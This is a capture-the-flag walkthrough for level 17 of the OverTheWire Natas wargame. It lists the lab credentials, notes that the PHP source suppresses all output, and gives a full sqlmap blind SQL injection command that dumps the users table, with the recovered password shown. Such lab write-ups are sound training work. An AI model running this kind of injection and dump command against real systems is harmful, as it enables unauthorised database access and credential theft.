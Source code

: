 # Natas Level 17
The ***URL*** to which you need to connect is *http://natas17.natas.labs.overthewire.org*. The ***username*** is *natas17* and the ***password*** is *8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw*. 

Lets check the [viewsource](http://natas17.natas.labs.overthewire.org/index-source.html) link.
We See that there's some errors in the code : (comments instead of code)
```php
$res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
```

lets try to use [SQLMap](http://sqlmap.org/) to inject some SQL. Here's a [cheat sheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet) to the tool. 

```
sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" --data=username=natas18 --auth-type=basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --level=5 --risk=3  --dbms=mysql -D natas17 -T users --dump
```

```
+----------+----------------------------------+
| username | password                         |
+----------+----------------------------------+
| natas18  | xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP |
+----------+----------------------------------+
```
